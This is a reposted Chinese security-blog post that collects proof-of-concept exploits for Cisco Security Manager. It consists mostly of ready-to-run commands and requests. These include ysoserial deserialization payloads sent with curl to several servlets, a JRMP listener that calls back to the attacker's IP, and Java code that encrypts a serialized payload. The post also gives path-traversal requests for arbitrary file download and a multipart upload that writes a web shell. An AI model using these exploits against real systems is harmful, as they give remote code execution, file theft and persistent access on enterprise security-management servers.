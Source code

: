 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/n4tgi9tapg5NWUiGbijgwg)

简介
--

思科安全管理器是一个企业级安全管理应用程序，可提供对思科安全和网络设备的了解和控制。Cisco Security Manager 在广泛的 Cisco 安全设备中提供全面的安全管理（配置和事件管理），包括 Cisco ASA 自适应安全设备，Cisco IPS 系列传感器设备，Cisco 集成服务路由器（ISR），Cisco 防火墙服务模块（FWSM） ，Cisco Catalyst，Cisco 交换机等等。Cisco Security Manager 允许您有效地管理各种规模的网络 - 从小型网络到包含数百台设备的大型网络。

POC
---

### SecretService.jsp  反序列化漏洞

`java -cp ./commons-beanutils-1.6.1.jar:[YOUR_PATH]]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.GeneratePayload CommonsBeanutils1 "cmd.exe /c calc.exe" > payload_CommonsBeanutils`

`curl -k --request POST --data-binary "@payload_CommonsBeanutils" https://[TARGET_HOST]/CSCOnm/servlet/SecretService.jsp`

### CsJaasServiceServlet 反序列化漏洞

Compile JaasEncryptor.java and replace the _b64Payload_ content:

```
import java.security.InvalidKeyException;import java.util.Base64;import com.cisco.nm.cmf.security.jaas.BlobCrypt;public class JaasEncryptor {        public static void main(String args[]) {                String b64Payload = "rO0ABXN9AAAAAQAaamF2YS5ybWkucmVnaXN0cnkuUmVnaXN0cnl4cgAXamF2YS5sYW5nLnJlZmxlY3QuUHJveHnhJ9ogzBBDywIAAUwAAWh0ACVMamF2YS9sYW5nL3JlZmxlY3QvSW52b2NhdGlvbkhhbmRsZXI7eHBzcgAtamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdEludm9jYXRpb25IYW5kbGVyAAAAAAAAAAICAAB4cgAcamF2YS5ybWkuc2VydmVyLlJlbW90ZU9iamVjdNNhtJEMYTMeAwAAeHB3MQAKVW5pY2FzdFJlZgAIMTAuMC4wLjIAAAG7AAAAAEBnvkQAAAAAAAAAAAAAAAAAAAB4";                byte[] payload = Base64.getDecoder().decode(b64Payload);                byte[] key = new byte[]{-100, 76, -23, 87, 125, 0, 5, 94, 12, 76, 37, -84, 36, 78, 123, 5};                                byte[] enc = BlobCrypt.encryptArray(payload, key);                System.out.println("Encrypted payload: " + Base64.getEncoder().encodeToString(enc));                byte[] dec = BlobCrypt.decryptArray(enc, key);        }}
```

Prepare JRMP Listener:

`java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 443`

`java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]]:443' | base64 -w0`

Compile encrypted payload:

`javac -cp [YOUR_PATH]]/server_jars_classes/jars.jar:./ JaasEncryptor2.java; java -cp [YOUR_PATH]/server_jars_classes/jars.jar:./ JaasEncryptor`

Send payload to Servlet with parameters _cmd=data_ + new line + _data=[ENCRYPTED_PAYLOAD]_.

### AuthTokenServlet 反序列化漏洞

Prepare JRMP Listener:

`java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsBeanutils1 "cmd.exe /c calc.exe"`

`java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]]:1337' > payload_JRMP1_2`

Send request:

`curl -k --request POST --data-binary "@payload_JRMP1_2" https://[TARGET_IP]/CSCOnm/servlet/com.cisco.nm.cmf.servlet.AuthTokenServlet`

### ClientServicesServlet 反序列化漏洞

Prepare JRMP listener:

`java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsBeanutils1 "cmd.exe /c calc.exe"`

`java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]:1337' > payload_JRMP1_3`

Send request:

`curl -k --request POST --data-binary "@payload_JRMP1_3" https://[TARGET_IP]/CSCOnm/servlet/com.cisco.nm.cmf.servlet.ClientServicesServlet`

### CTMServlet 反序列化漏洞

`java -cp ./commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.GeneratePayload CommonsBeanutils1 "cmd.exe /c calc.exe" > payload_CommonsBeanutils1_2`

`curl -i -s -k -X $'POST' -H $'Content-Type: application/octet-stream' -H $'CTM-URN: com-cisco-nm-vms-ipintel-IpIntelligenceApi' -H $'CTM-VERSION: 1.5' -H $'CTM-PRODUCT-ID: /C:/Program Files (x86)/CSCOpx/MDC/tomcat/vms/athena/WEB-INF/lib/' -H $'Cache-Control: no-cache' -H $'Pragma: no-cache' -H $'User-Agent: Java/1.8.0_222' -H $'Host: [TARGET_IP]' -H $'Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2' -H $'Connection: keep-alive' --data-binary "@payload_CommonsBeanutils1_2" $'https://[TARGET_IP]/athena/CTMServlet'`

### XdmConfigRequestHandler 任意文件下载

`GET /athena/xdmProxy/xdmConfig[RELATIVE_PATH_TO_FILE]`

### XdmResourceRequestHandler 任意文件下载

`GET /athena/xdmProxy/xdmResources[RELATIVE_PATH_TO_FILE]?dmTargetType=TARGET.IDS&dmOsVersion=7.&command=editConfigDelta`

### XmpFileUploadServlet 任意文件上传

Write a web shell e.g.

`POST /cwhp/XmpFileUploadServlet?maxFileSize=100`

Normal multi-part e.g. writing web shell in _filename_ with _../../MDC/tomcat/webapps/cwhp/testme.jsp_.

### XmpFileDownloadServlet 任意文件下载

`GET /cwhp/XmpFileDownloadServlet?parameterName=downloadDoc&downloadDirectory=[RELATIVE_PATH_TO_DIRECTORY]&readmeText=1`

This will respond with a ZIP file containing all files from the directory.

### SampleFileDownloadServlet 任意文件下载

`GET /cwhp/SampleFileDownloadServlet?downloadZipFileName=pwned&downloadFiles=README&downloadLocation=[RELATIVE_PATH_TO_DIRECTORY]`

This will respond with a ZIP file containing all files from the directory.

### resultsFrame.jsp 任意文件下载

`GET /athena/itf/resultsFrame.jsp?filename=[RELATIVE_PATH_TO_FILE]`

### SecretServiceServlet 反序列化漏洞

See also https://de.tenable.com/security/research/tra-2017-23

`java -cp [YOUR_PATH]/commons-beanutils-1.6.1.jar:[YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsBeanutils1 "cmd.exe /c calc.exe"`

`java -jar [YOUR_PATH]/ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient '[YOUR_IP]:1337' > payload_JRMP1_2`

`curl -k --request POST --data-binary "@payload_JRMP1_2" https://[TARGET_IP]/CSCOnm/servlet/com.cisco.nm.cmf.servlet.SecretServiceServlet`

参考
--

https://www.zdnet.com/article/cisco-reveals-this-critical-bug-in-cisco-security-manager-after-exploits-are-posted-patch-now/

**【往期推荐】**  

[未授权访问漏洞汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484804&idx=2&sn=519ae0a642c285df646907eedf7b2b3a&chksm=ea37fadedd4073c87f3bfa844d08479b2d9657c3102e169fb8f13eecba1626db9de67dd36d27&scene=21#wechat_redirect)

[【内网渗透】内网信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485796&idx=1&sn=8e78cb0c7779307b1ae4bd1aac47c1f1&chksm=ea37f63edd407f2838e730cd958be213f995b7020ce1c5f96109216d52fa4c86780f3f34c194&scene=21#wechat_redirect)  

[【内网渗透】域内信息收集命令汇总](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485855&idx=1&sn=3730e1a1e851b299537db7f49050d483&chksm=ea37f6c5dd407fd353d848cbc5da09beee11bc41fb3482cc01d22cbc0bec7032a5e493a6bed7&scene=21#wechat_redirect)  

[【超详细】CVE-2020-14882 | Weblogic 未授权命令执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485550&idx=1&sn=921b100fd0a7cc183e92a5d3dd07185e&chksm=ea37f734dd407e22cfee57538d53a2d3f2ebb00014c8027d0b7b80591bcf30bc5647bfaf42f8&scene=21#wechat_redirect)

[【超详细 | 附 PoC】CVE-2021-2109 | Weblogic Server 远程代码执行漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247486517&idx=1&sn=34d494bd453a9472d2b2ebf42dc7e21b&chksm=ea37f36fdd407a7977b19d7fdd74acd44862517aac91dd51a28b8debe492d54f53b6bee07aa8&scene=21#wechat_redirect)  

[【奇淫巧技】如何成为一个合格的 “FOFA” 工程师](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485135&idx=1&sn=f872054b31429e244a6e56385698404a&chksm=ea37f995dd40708367700fc53cca4ce8cb490bc1fe23dd1f167d86c0d2014a0c03005af99b89&scene=21#wechat_redirect)
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

[记一次 HW 实战笔记 | 艰难的提权爬坑](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=2&sn=5368b636aed77ce455a1e095c63651e4&chksm=ea37f965dd407073edbf27256c022645fe2c0bf8b57b38a6000e5aeb75733e10815a4028eb03&scene=21#wechat_redirect)

[【超详细】Microsoft Exchange 远程代码执行漏洞复现【CVE-2020-17144】](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247485992&idx=1&sn=18741504243d11833aae7791f1acda25&chksm=ea37f572dd407c64894777bdf77e07bdfbb3ada0639ff3a19e9717e70f96b300ab437a8ed254&scene=21#wechat_redirect)

[【超详细】Fastjson1.2.24 反序列化漏洞复现](http://mp.weixin.qq.com/s?__biz=MzI1NTM4ODIxMw==&mid=2247484991&idx=1&sn=1178e571dcb60adb67f00e3837da69a3&chksm=ea37f965dd4070732b9bbfa2fe51a5fe9030e116983a84cd10657aec7a310b01090512439079&scene=21#wechat_redirect)

_**走过路过的大佬们留个关注再走呗**_![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTEATexewVNVf8bbPg7wC3a3KR1oG1rokLzsfV9vUiaQK2nGDIbALKibe5yauhc4oxnzPXRp9cFsAg4Q/640?wx_fmt=png)

**往期文章有彩蛋哦****![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTHtVfEjbedItbDdJTEQ3F7vY8yuszc8WLjN9RmkgOG0Jp7QAfTxBMWU8Xe4Rlu2M7WjY0xea012OQ/640?wx_fmt=png)**

![](https://mmbiz.qpic.cn/mmbiz_png/7D2JPvxqDTECbvcv6VpkwD7BV8iaiaWcXbahhsa7k8bo1PKkLXXGlsyC6CbAmE3hhSBW5dG65xYuMmR7PQWoLSFA/640?wx_fmt=png)